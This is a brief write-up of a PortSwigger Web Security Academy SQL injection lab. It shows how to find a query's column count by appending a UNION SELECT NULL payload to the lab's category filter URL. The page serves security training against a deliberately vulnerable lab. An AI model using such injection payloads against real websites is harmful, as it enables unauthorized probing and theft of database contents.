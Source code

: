 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
## Task
Determine the number of columns returned by a query by performing a SQL injection attack using the `UNION` operator, which will return an additional row with null values.
## Solution
Go to the site

![image](images/20241201175030.png)

Choose any category (I chose `Gifts`). In `URL` we add
```SQL
'+UNION+SELECT+NUll,NULL,NULL--
```
To get this `URL`:
```URL
https://web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NUll,NULL, NULL--
```

![image](images/20241201175258.png)
